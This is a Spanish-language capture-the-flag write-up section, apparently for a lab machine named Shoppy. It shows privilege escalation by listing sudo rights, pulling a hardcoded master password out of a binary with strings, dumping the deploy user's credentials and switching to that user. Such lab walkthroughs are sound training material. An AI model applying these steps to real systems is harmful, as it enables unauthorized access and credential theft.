 # Escalada

Tengo un privilegio a nivel de sudoers

```null
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

Se trata de un binario compilado de 64 bits

```null
jaeger@shoppy:~$ file /home/deploy/password-manager
/home/deploy/password-manager: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=400b2ed9d2b4121f9991060f343348080d2905d1, for GNU/Linux 3.2.0, not stripped
```

Se expone la ruta de un archivo de texto en las cadenas de caracteres imprimibles

```null
jaeger@shoppy:~$ strings /home/deploy/password-manager | grep txt
cat /home/deploy/creds.txt
```

Al pasarle un encoder de 16 bits se leakea una única palabra

```null
jaeger@shoppy:~$ strings -e l /home/deploy/password-manager
Sample
```

La introduzco como contraseña maestra y funciona sin problema

```null
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

Me convieto en este usuario

```null
jaeger@shoppy:~$ su deploy
Password: 
$ bash
deploy@shoppy:/home/jaeger$ 
```
